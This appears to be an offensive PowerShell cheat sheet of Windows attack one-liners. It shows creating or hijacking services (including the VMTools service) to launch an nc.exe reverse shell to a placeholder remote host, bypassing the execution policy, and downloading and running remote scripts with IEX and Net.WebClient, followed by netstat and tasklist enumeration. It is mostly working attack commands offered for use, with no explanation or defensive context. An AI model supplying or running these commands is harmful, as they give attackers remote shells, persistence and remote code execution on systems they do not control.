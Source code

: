 
## List Services
```powershell

services
```


## Create Reverse Shell Service
```powershell

> sc.exe create foo binPath="C:\Users\zaiko\Desktop\nc.exe -e cmd {RHOST} {RPORT}"
```


## Manipulate Service Settings to Execute Reverse Shell
```powershell

> sc.exe config VMTools binPath="C:\Users\zaiko\Desktop\nc.exe -e cmd {RHOST} {RPORT}"
```

  
## Start and Stop Service
```powershell

> sc.exe start {service}

> sc.exe stop {service}
```

  
## Download Files with Powershell
```powershell

> Invoke-WebRequest 'http://{dominio}/{recurso}' -OutFile ''
```

  
## Bypass Execution Policy
```powershell

Set-ExecutionPolicy Bypass -Scope Process
```

  
## Interpret Powershell from Remote Server
```powershell

IEX(New-Object Net.WebClient).downloadString('http://{dominio}/{recurso}')

```


## Open ports
```powershell
netstat -nat 

netstat -ano -p tcp
```


## System process
```powershell 
tasklist
```

